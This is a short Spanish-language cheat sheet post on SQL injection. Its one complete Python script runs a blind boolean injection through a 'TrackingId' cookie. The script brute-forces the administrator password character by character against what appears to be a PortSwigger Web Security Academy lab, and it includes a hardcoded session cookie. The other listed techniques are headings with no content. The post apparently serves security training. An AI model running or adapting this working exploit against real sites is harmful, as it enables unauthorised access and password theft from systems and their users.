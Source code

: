 ```yaml
---
title: SQL INJECION - SQLI CHEAT SHEET
published: true
---
```


- SQL INJECTION

SCRIPTS QUE SIRVEN DE GUIA PARA LOS DIFERENTES TIPOS DE SQLI DE TIPOS

- CONDITIONAL REPONSE

[sqli_base_reponse.py](../assets/posts1/sqli_base_reponse.py)

```python
#!/usr/bin/python3
from pwn import *
import requests,signal ,time,pdb,sys,string

def def_handler(sig,frame):
   print("\n\n [!] Saliendo... \n")
   sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT,def_handler)

main_url = "https://0a8d00e8034e08e980bcd096007a0046.web-security-academy.net/filter?category=Accessories"

characters = string.ascii_lowercase + string.ascii_uppercase + string.digits # caracteres lower case  + upper cas + numeros

def make_requests():
   password = ""

   p1 = log.progress("Fuerza bruta") # nombre la barra de progreso

   p2 = log.progress("password") # nombre de la 2 barra de progreso


   for posicion in range(1,21): #tamaño de la contraseña es 20 longitud
      for character in characters:
         #COOKIES VULNERABLES A SQL INJECTION
         cookies = {
         'TrackingId' : "aI7htw8h5K5p9nsH'  and (select substring(password,%d,1) from users  where username='administrator')='%s" % (posicion,character),
         'session': '0KWmmHJMHEayvKEXiNqiRKo7cikxvyJ7'
         }

         p1.status(cookies['TrackingId']) # resultado de la barra de progreso

         r = requests.get(main_url,cookies=cookies) # respuesta de la peticion se almacena en r

         #si en la respuesta es presente la palabra que es el que indica si fue existoso o no 
         #!!! IMPORTANTE !!! TIENEN OTROS METODOS COMO : r.status_code , r.headers , r.cookies , r.text , r.json() , r.url
         if "Welcome back!" in r.text: 
            password += character
            p2.status(password) # resultado de la 2 barra  de progreso
            break

if __name__ == '__main__':
   make_requests()

```

- CONDITIONAL ERRORS

- CONDITIONAL VISIBLE ERROR-BASED

- CONDITIONAL TIME DELAYS

- CONDITIONAL TIME DELAYS AND INFORMATION RETRIEVAL
